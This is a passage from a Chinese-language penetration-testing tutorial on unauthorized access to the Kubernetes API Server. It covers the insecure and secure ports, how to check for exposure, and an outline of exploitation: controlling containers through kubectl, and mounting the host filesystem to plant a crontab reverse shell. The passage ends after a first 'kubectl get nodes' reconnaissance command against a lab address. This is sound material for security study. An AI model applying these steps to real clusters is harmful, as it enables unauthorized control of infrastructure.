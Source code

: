 B: Secure Port

-   使用基于策略的授权方式
-   认证方式，令牌文件或者客户端证书
-   默认端口 6443，修改标识—secure-port
-   默认 IP 是首个非本地主机的网络接口，修改标识—bind-address
-   HTTPS 服务。设置证书和秘钥的标识，–tls-cert-file，–tls-private-key-file

以上两个端口主要存在以下两类安全风险：

-   开发者使用 8080 端口并将其暴露在公网上，攻击者就可以通过该端口的 API 直接对集群下发指令
-   运维人员将"system:anonymous"用户绑定到"cluster-admin"用户组，使匿名用户可以通过 6443 端口以管理员权限向集群内部下发指令

**漏洞检测**  
在浏览器中访问以下 URL：

```bash
#格式说明
http://ip:port/

#使用实例
http://192.168.17.144:8080/
```

[![](assets/1701826061-42ae9657b274774cdc38b6854f5a56c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164840-4b6c2c96-7313-1.png)  
返回以上信息说明存在 K8s API Server 未授权访问漏洞~  
**漏洞利用**  
利用方式按严重程度可分为以下两种攻击类型：

-   通过利用 kubectl 客户端调用 Secure Port 接口去控制已经创建好的容器
-   通过创建一个自定义的容器将系统根目录的文件挂在到/mnt 目录，之后通过修改/mnt/etc/crontab 来影响宿主机的 crontab，通过反弹 Shell 拿到宿主机的权限

**容器管理**

Step 1：获取目标机器的信息

```bash
#格式说明
kubectl -s ip:port get nodes

#执行实例
kubectl -s 192.168.17.144:8080 get nodes
```
